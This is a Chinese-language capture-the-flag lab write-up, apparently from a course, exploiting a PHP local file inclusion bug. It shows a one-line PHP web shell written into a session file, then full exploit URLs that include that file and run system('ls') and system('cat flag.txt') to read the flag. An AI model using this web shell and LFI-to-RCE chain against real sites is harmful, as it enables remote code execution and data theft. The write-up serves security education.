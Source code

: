 # lab_Hello from Windows_98

1. 這題一開始給了一個輸入的視窗，而點選 Source 之後其實可以直接看到 Source Code，而 Source Code 上方，我們可以控制 seesion 的內容，然後最重要的是可以看到 Source Code 最下面  “<?php include($_GET['page']);?>” ，這邊應該就是我們主要去利用的地方，所以這裡是需要寫一個一句話木馬進去，然後去 include 我們那個 session 的檔案。

![截圖 2022-12-19 上午12.03.45.png](lab_Hello%20from%20Windows_98%20a9f87a1a6dc0456fb0e8dfa69d63bb92/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%258812.03.45.png)

![截圖 2022-12-19 上午12.13.53.png](lab_Hello%20from%20Windows_98%20a9f87a1a6dc0456fb0e8dfa69d63bb92/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%258812.13.53.png)

![截圖 2022-12-19 上午12.09.53.png](lab_Hello%20from%20Windows_98%20a9f87a1a6dc0456fb0e8dfa69d63bb92/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%258812.09.53.png)

1. 接下來我們把這一段 PHP Code “<?php eval($_GET['c']);?>” 放進去執行，從 View → Application 裡面可以看到我們的 cookie ，再把這個 cookie 放進 URL，讓 page = /tmp/sess_27d9ceedb14ff98a7fefec12a95d4a55 ，就可以看到我們的一句話木馬有執行成功。

![截圖 2022-12-19 上午12.32.14.png](lab_Hello%20from%20Windows_98%20a9f87a1a6dc0456fb0e8dfa69d63bb92/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%258812.32.14.png)

![截圖 2022-12-19 上午12.39.53.png](lab_Hello%20from%20Windows_98%20a9f87a1a6dc0456fb0e8dfa69d63bb92/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%258812.39.53.png)

1. 最後就加上 c=system(”<command>”); 可以執行任意指令，嘗試了 c=system(”ls”);  就列出了所有的檔案，然後改成  c=system(”cat flag.txt”); 就成功得到 FLAG。

![截圖 2022-12-19 上午12.52.33.png](lab_Hello%20from%20Windows_98%20a9f87a1a6dc0456fb0e8dfa69d63bb92/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%258812.52.33.png)

![截圖 2022-12-19 上午12.54.31.png](lab_Hello%20from%20Windows_98%20a9f87a1a6dc0456fb0e8dfa69d63bb92/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%258812.54.31.png)

```python
<?php eval($_GET['c']);?>

http://edu-ctf.zoolab.org:10200/?page=/tmp/sess_{cookie}&c=echo%201;
http://edu-ctf.zoolab.org:10200/?page=/tmp/sess_1ab3028b579b1dd8c8e60923df813d85&c=system(%22cat%20flag.txt%22);
FLAG{LFI_t0_rC3_1s_e4Sy!}
```